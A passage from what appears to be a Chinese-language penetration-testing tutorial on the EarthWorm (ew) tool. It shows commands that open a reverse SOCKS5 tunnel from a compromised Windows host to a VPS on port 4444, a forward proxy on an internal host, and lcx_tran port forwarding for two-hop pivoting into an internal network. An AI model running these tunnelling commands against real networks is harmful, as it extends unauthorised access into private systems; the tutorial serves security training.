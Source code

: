 





```none
> .\ew_for_Win.exe -s rssocks -d 172.16.214.52 -e 4444
```

这条命令表示在本地开启 socks 5 服务，并反弹到 vps 的 4444 端口，如果代理建立成功，在 VPS 端就会看到 `rssocks cmd_socket OK!` 的提示。

最后，代理 vps 的 1080 端口就可以访问到目标主机的内网了。



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-09_10-24-45.png)



#### c、二级网络环境（一）

有这样的一个网络环境，目标主机A有两个网卡，一个内网地址一个公网地址，但这个主机只能访问内网主机B不能访问其他内网资源，而内网主机B不能访问外网但是能访问内网资源。

在拿到这两台主机权限后，就可以使用 ew 进行二级跳板访问到内网资源。







```none
内网主机A（有公网IP） --》内网主机B --》内网资源
```

在内网主机B上，开启正向连接代理







```none
ew -s ssocksd -l 4444
```







```none
> .\ew_for_Win.exe -s ssocksd -l 4444
```

在内网主机A上







```none
ew -s lcx_tran -l 1080 -f hostB_ip -g 4444
```





